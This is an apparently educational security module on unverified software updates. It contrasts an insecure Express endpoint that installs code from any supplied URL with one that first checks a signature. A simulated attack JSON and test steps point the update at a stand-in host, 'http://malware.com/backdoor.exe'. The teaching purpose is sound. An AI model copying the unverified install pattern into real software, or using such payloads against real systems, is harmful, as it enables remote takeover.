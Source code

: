 # **Module 8: Software and Data Integrity Failures**

## **Introduction**
**Software and data integrity failures** occur when applications **fail to validate software updates or allow unauthorized modifications to critical data**, leading to **malicious code execution, data tampering, or system compromise**.

In this module, we demonstrate how **an insecure software update mechanism** allows an attacker to install **unauthorized updates**, and how cryptographic verification prevents such attacks.

---

## **Vulnerability: Unverified Software Updates**
**Issue:** The platform allows **unverified software updates**, making it vulnerable to:
- **Malicious updates** that modify system behavior.
- **Data tampering**, allowing attackers to manipulate sensitive transactions.
- **Backdoors** installed via unauthorized patches.

---

## **Insecure Code Example**
This code **applies updates without verifying their integrity**, making it susceptible to unauthorized modifications.

```javascript
// Insecure Code: No update verification
app.post('/update-software', (req, res) => {
    const { updateUrl } = req.body;
    downloadAndInstall(updateUrl);
    res.send("Update applied.");
});
```

---

## **Simulated Attack**
How an attacker can exploit this flaw

1. The attacker modifies the update request, injecting a malicious software package:

```json
{
    "updateUrl": "http://malware.com/backdoor.exe"
}
```

2. The system downloads and installs the fake update without validation.

**Consequence:** The attacker gains remote access to the system.

---

## **Proper Implementation: Cryptographic Signature Verification**
To protect against unauthorized updates, the system should verify digital signatures before applying updates.

```javascript
// Secure Code: Verify software updates before installation
app.post('/update-software', (req, res) => {
    const { updateUrl, signature } = req.body;

    if (!verifyDigitalSignature(updateUrl, signature)) {
        return res.status(403).send("Unauthorized update attempt blocked.");
    }

    downloadAndInstall(updateUrl);
    res.send("Verified update applied securely.");
});
```
### **Why is this secure?**
- Verifies update authenticity, ensuring it comes from a trusted source.
- Prevents unauthorized modifications to system files.
- Blocks malware installation via fake updates.

---

## **How to Test the Vulnerability in the Platform**

### **Step 1: Simulate an Unauthorized Software Update**
1. Log into the user dashboard.
2. Click "Check for Updates".
3. Enter a malicious URL (http://malware.com/backdoor.exe).
4. Click "Apply Update" and observe that the update is installed without validation.

### **Step 2: Test the Secure Implementation**
1. Click "Enable Cryptographic Verification" to activate:
   - Digital signature validation.
   - Restricted update sources.
2. Attempt the same attack again.
3. The system now blocks the unverified update.

---

## **Conclusion**

- NEVER allow software updates without cryptographic verification.
- Use digital signatures to verify updates before installation.
- Restrict update sources to prevent unauthorized modifications.
- Monitor and log update activity to detect malicious attempts.

